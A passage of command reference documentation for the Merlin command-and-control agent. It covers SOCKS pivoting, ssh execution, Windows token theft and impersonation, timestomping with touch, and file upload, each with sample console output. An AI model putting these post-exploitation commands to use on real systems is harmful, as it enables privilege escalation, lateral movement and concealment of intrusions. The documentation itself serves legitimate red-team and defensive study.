    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» socks start
    [-] Started SOCKS listener for agent c1090dbc-f2f7-4d90-a241-86e0c0217786 on 127.0.0.1:9050

.. code-block:: text

    Merlin[agent][7be9defd-29b8-46ee-8d38-0f3805e9233f]» socks start 0.0.0.0:9051
    [-] Started SOCKS listener for agent 7be9defd-29b8-46ee-8d38-0f3805e9233f on 0.0.0.0:9051

.. _socks stop:

stop
^^^^

.. note::
    USAGE: ``socks stop [interface:]port agentID``

The ``stop`` command will stop and remove the SOCKS5 listener for the current agent.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» socks stop
    [-] Successfully stopped SOCKS listener for agent c1090dbc-f2f7-4d90-a241-86e0c0217786 on 127.0.0.1:9055


ssh
---

.. note::
    USAGE: ``ssh username password host:port program [args]``

The ``ssh`` command connects to target host over the SSH protocol, executes the provided command, and returns the results.

.. warning::
    This command is insecure by design because it does not validate the remote host's public key

``ssh <username> <password> <host:port> <program> [<args>]``

.. code-block:: text

    Merlin[agent][fbef5b71-50bb-4d36-8a1b-2edf233eb578]» ssh rastley S3cretPassw0rd 192.168.100.123:22 /bin/sh -c \"ip address show eth0\"
    [-] Created job pinIDJXDTv for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job pinIDJXDTv for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Connected to 192.168.100.123:22 at 192.168.100.123:22 with public key ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJytZseMSAsUU6OE2X4TC518fcF3yxgFYIgYp4+xT9pa9n5449gcsKT/eO3hx9NXAtyOHImg/Ff8kdWs52bU3SA=
    0: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
        link/ether 00:0c:29:z3:ff:91 brd ff:ff:ff:ff:ff:ff
        inet 192.168.100.70/24 brd 192.168.100.255 scope global dynamic noprefixroute eth0
           valid_lft 1781sec preferred_lft 1781sec

status
------

.. note::
    USAGE: ``status``

The ``status`` command is used to simply print if the Merlin Agent is Active, Delayed, or Dead to the screen. This becomes useful when you come back to Merlin after a couple of hours or if you want to see if your shell has died.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» status
    Active
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»

steal_token
-----------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``steal_token PID``

The ``steal_token`` command steals and uses a Windows access token from another process.
This command is an alias for the :ref:`token steal` command.

The steal command obtains a handle to a remote process’ access token, duplicates it through the DuplicateTokenEx
Windows API, and subsequently uses it to perform future post-exploitation commands.

References:

    * https://docs.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-duplicatetokenex"

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» steal_token 1320
    [-] Created job xBDIToajju for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job xBDIToajju for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [+] Successfully stole token from PID 1320 for user ACME\\Administrator with LogonID 0x39DF3C

token
-----

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``token {make | privs | rev2self | steal | whoami} [options]``

The ``token`` command is used to perform various operations with Windows `access tokens <https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens>`_.
The following commands are available:

* :ref:`token make`
* :ref:`token privs`
* :ref:`token rev2self`
* :ref:`token steal`
* :ref:`token whoami`

Merlin keeps track of when a Windows access token was created or stolen. If there is a created or stolen token, it will be used with the following commands:

* :ref:`cd`
* :ref:`download`
* :ref:`execute-assembly`
* :ref:`execute-pe`
* :ref:`execute-shellcode`
* :ref:`invoke-assembly`
* minidump
* :ref:`kill`
* :ref:`ls`
* :ref:`ps`
* :ref:`rm`
* :ref:`run`
* :ref:`shell`
* :ref:`touch`
* :ref:`upload`

The following commands will make the Windows `CreateProcessWithTokenW <https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw>`_ API call:

* :ref:`execute-assembly`
* :ref:`execute-pe`
* :ref:`execute-shellcode`
* :ref:`run`
* :ref:`shell`

.. _token make:

make
^^^^

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``token make DOMAIN\USERNAME PASSWORD``

The ``make`` command is use to create a new Windows access token with the Windows `LogonUserW <https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-logonuserw>`_ API call. The token is created with a type ``9 - NewCredentials`` `logon type <https://docs.microsoft.com/en-us/windows-server/identity/securing-privileged-access/reference-tools-logon-types>`_. This is the equivalent of using ``runas.exe /netonly``.

.. warning::
    Type 9 - NewCredentials tokens only work for **NETWORK** authenticated activities

.. note::
    Commands such as ``token whoami`` will show the username for the process and not the created token due to the logon type, but will reflect the new Logon ID

``token make <DOMAIN\\User> <password>``

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» token make ACME\\Administrator S3cretPassw0rd
    [-] Created job piloeJbKPp for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job piloeJbKPp for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Successfully created a Windows access token for ACME\Administrator with a logon ID of 0xA703CF0

.. _token privs:

privs
^^^^^

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``token privs [PID]``

The ``privs`` command enumerates the privilege associated with either the current process or a remote process.
If the current process has a created or stolen, and process ID argument is not provided, then the applied token's
privileges will be enumerated.

``token privs [<PID>]``

Current process:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» token privs
    [-] Created job rBIkAAWkIr for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job rBIkAAWkIr for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Process ID 6892 access token integrity level: High, privileges (24):
            Privilege: SeIncreaseQuotaPrivilege, Attribute:
            Privilege: SeSecurityPrivilege, Attribute:
            Privilege: SeTakeOwnershipPrivilege, Attribute:
            Privilege: SeLoadDriverPrivilege, Attribute:
            Privilege: SeSystemProfilePrivilege, Attribute:
            Privilege: SeSystemtimePrivilege, Attribute:
            Privilege: SeProfileSingleProcessPrivilege, Attribute:
            Privilege: SeIncreaseBasePriorityPrivilege, Attribute:
            Privilege: SeCreatePagefilePrivilege, Attribute:
            Privilege: SeBackupPrivilege, Attribute:
            Privilege: SeRestorePrivilege, Attribute:
            Privilege: SeShutdownPrivilege, Attribute:
            Privilege: SeDebugPrivilege, Attribute: SE_PRIVILEGE_ENABLED
            Privilege: SeSystemEnvironmentPrivilege, Attribute:
            Privilege: SeChangeNotifyPrivilege, Attribute: SE_PRIVILEGE_ENABLED_BY_DEFAULT,SE_PRIVILEGE_ENABLED
            Privilege: SeRemoteShutdownPrivilege, Attribute:
            Privilege: SeUndockPrivilege, Attribute:
            Privilege: SeManageVolumePrivilege, Attribute:
            Privilege: SeImpersonatePrivilege, Attribute: SE_PRIVILEGE_ENABLED_BY_DEFAULT,SE_PRIVILEGE_ENABLED
            Privilege: SeCreateGlobalPrivilege, Attribute: SE_PRIVILEGE_ENABLED_BY_DEFAULT,SE_PRIVILEGE_ENABLED
            Privilege: SeIncreaseWorkingSetPrivilege, Attribute:
            Privilege: SeTimeZonePrivilege, Attribute:
            Privilege: SeCreateSymbolicLinkPrivilege, Attribute:
            Privilege: SeDelegateSessionUserImpersonatePrivilege, Attribute:

Remote process:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» token privs 8156
    [-] Created job BAKadQhkOc for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job BAKadQhkOc for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Process ID 8156 access token integrity level: Low, privileges (2):
            Privilege: SeChangeNotifyPrivilege, Attribute: SE_PRIVILEGE_ENABLED_BY_DEFAULT,SE_PRIVILEGE_ENABLED
            Privilege: SeIncreaseWorkingSetPrivilege, Attribute:

.. _token rev2self:

rev2self
^^^^^^^^

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``token rev2self``

The ``rev2self`` command leverages the `RevertToSelf <https://docs.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-reverttoself>`_
Windows API function and releases, or drops, any access token that have been created or stolen.

.. note::
    There is an unregistered ``rev2self`` command alias that can be use from the agent root menu prompt

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» token rev2self
    [-] Created job ZXKyKuIZru for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job ZXKyKuIZru for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Successfully reverted to self and dropped the impersonation token


.. _token steal:

steal
^^^^^

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``token steal PID``

The ``steal`` command obtains a handle to a remote process' access token, duplicates it through the
`DuplicateTokenEx <https://docs.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-duplicatetokenex>`_
Windows API, and subsequently uses it to perform future post-exploitation commands.

.. note::
    There is an unregistered ``steal_token`` command alias that can be use from the agent root menu prompt

``token steal <PID>``

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» token steal 1320
    [-] Created job xBDIToajju for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job xBDIToajju for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Successfully stole token from PID 1320 for user ACME\Administrator with LogonID 0x39DF3C

.. _token whoami:

whoami
^^^^^^

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``token whoami``

The ``whoami`` command leverages the Windows `GetTokenInformaion <https://docs.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-gettokeninformation>`_ API call to return information
about both the process and thread Windows access token. This information includes:

* Username
* Token ID
* Logon ID
* Privilege Count
* Group Count
* Token Type
* Token Impersonation Level
* Integrity Level

``token whoami``

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» token whoami
    [-] Created job UZXXIILnYD for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job UZXXIILnYD for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Process (Primary) Token:
            User: ACME\rastley,Token ID: 0x9CA475E,Logon ID: 0x26C3A6,Privilege Count: 24,Group Count: 14,Type: Primary,Impersonation Level: Anonymous,Integrity Level: High
    Thread (Primary) Token:
            User: NT AUTHORITY\SYSTEM,Token ID: 0x9CC08EB,Logon ID: 0x3E7,Privilege Count: 28,Group Count: 4,Type: Primary,Impersonation Level: Impersonation,Integrity Level: System

.. _touch:

touch
-----

.. note::
    USAGE: ``touch sourceFilePath destinationFilePath``

The ``touch`` command is used to duplicate a timestamp from one file to another. This technique is also known as timestomp

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell ls -la /tmp/deleteMe.txt
    [-] Created job hEXYmbbGpW for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job hEXYmbbGpW for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] -rw-rw-r-- 1 rastley rastley 0 Aug  2 20:11 /tmp/deleteMe.txt

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» touch /etc/passwd /tmp/deleteMe.txt
    [-] Created job Canvuiuoxj for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job Canvuiuoxj for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] File: /tmp/deleteMe.txt
    Last modified and accessed time set to: 2020-09-16 07:05:18.245022776 -0400 EDT

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell ls -la /tmp/deleteMe.txt
    [-] Created job gTFZbcgeJW for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job gTFZbcgeJW for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] -rw-rw-r-- 1 rastley rastley 0 Sep 16  2020 /tmp/deleteMe.txt

.. _unlink:

unlink
------

.. note::
    USAGE: ``unlink childAgentID``

The ``unlink`` command tasks the parent Agent to disconnect from the child peer-to-peer Agent.
Depending on the child Agent type and configuration, the child Agent will remain running and listening for new connections.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» link list
    [-] Created job pJpbkMqphK for agent c1090dbc-f2f7-4d90-a241-86e0c0217786 at 2023-07-28T11:59:32Z
    [-] Results of job pJpbkMqphK for agent c1090dbc-f2f7-4d90-a241-86e0c0217786 at 2023-07-28T11:59:54Z
    [+] Peer-to-Peer Links (1)
    0. tcp-bind:e718067d-bf44-4715-aae3-8c1142114e3d:127.0.0.1:7777

    Merlin[agent][d02fff99-e37d-4220-b430-a1c199ad3bcb]» unlink e718067d-bf44-4715-aae3-8c1142114e3d
    [-] Created job uLhDoRVtPY for agent d02fff99-e37d-4220-b430-a1c199ad3bcb at 2023-07-28T12:00:27Z
    [-] Results of job uLhDoRVtPY for agent d02fff99-e37d-4220-b430-a1c199ad3bcb at 2023-07-28T12:00:41Z
    [+] Successfully unlinked from tcp-bind Agent e718067d-bf44-4715-aae3-8c1142114e3d and closed the network connection

.. _upload:

upload
------

.. note::
    USAGE: ``upload sourceFilePath destinationFilePath``

The ``upload`` command is used to upload a file *from* the Merlin server *to* the host where the Merlin agent is running. The command is called by proving the location of the file on the Merlin server followed by the location to save the file on the host where the Merlin agent is running.

.. note::
    Because ``\`` is used to escape a character, file paths require two (e.g., ``C:\\Windows``)

.. note::
    Enclose file paths containing a space with quotation marks (e.g.,. ``"C:\\Windows\\Program Files\\"``)

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» upload C:\\SysinternalsSuite\\PsExec.exe C:\\Windows\\PsExec.exe
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [-]Created job vXJsZdZLPP for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

uptime
------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``uptime``

The ``uptime`` command uses the Windows API GetTickCount64 method to determine how long the host has been running.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» uptime
    [-] Created job GJwrXttowA for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job GJwrXttowA for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    System uptime: 853h31m14.921s

verbose
-------

.. note::
    USAGE: ``verbose``

The ``verbose`` command is a switch used to enable or disable verbose output to the console.

.. code-block::

    Merlin» verbose
    [+] 2023-10-19T12:40:44Z Verbose output enabled
    Merlin» verbose
    [+] 2023-10-19T12:40:46Z Verbose output disabled
    Merlin»